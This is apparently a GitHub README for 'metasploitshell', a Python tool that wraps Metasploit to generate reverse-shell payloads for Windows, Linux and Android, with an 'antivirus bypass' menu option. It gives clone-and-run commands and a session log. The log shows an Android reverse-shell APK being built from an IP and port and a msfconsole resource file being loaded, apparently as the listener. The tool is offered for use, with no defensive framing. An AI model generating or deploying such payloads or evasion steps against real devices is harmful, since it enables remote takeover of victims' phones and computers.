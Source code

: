 # metasploitshell
made by khilesh
# simple reverse shell gerneter tool

# commands
git clone https://github.com/khilesh114/metasploitshell
cd metasploitshell
sudo python3 msv.py

──(codex㉿kali)-[~/Desktop/projects/metasploitshell]
└─$ python3 msv.py
metasploit fremwork
enter ip addres ex 127.0.0.1
enter port ex 8080

        windows          [1]
        linux            [2]
        android          [3]
        antivirus bypass [4]
        exit tool        [5]
enter a number :-3

 
                   .___             .__    .___
_____    ____    __| _/______  ____ |__| __| _/
\__  \  /    \  / __ |\_  __ \/  _ \|  |/ __ | 
 / __ \|   |  \/ /_/ | |  | \(  <_> )  / /_/ | 
(____  /___|  /\____ | |__|   \____/|__\____ | 
     \/     \/      \/                      \/ 

Enter ip address :-127.0.0.1
Enter a port nomber  :-8080
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10231 bytes
Saved as: android.apk
Metasploit tip: Save the current environment with the save command, 
future console restarts will use this environment again
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.3.42-dev                          ]
+ -- --=[ 2375 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[*] Processing android.txt for ERB directives.
msf6 > exit
                                                                                                                          
#┌──(codex㉿kali)-[~/Desktop/projects/metasploitshell]
any error exit msfconsole and run command
# └─$ msfconsole -r android.txt



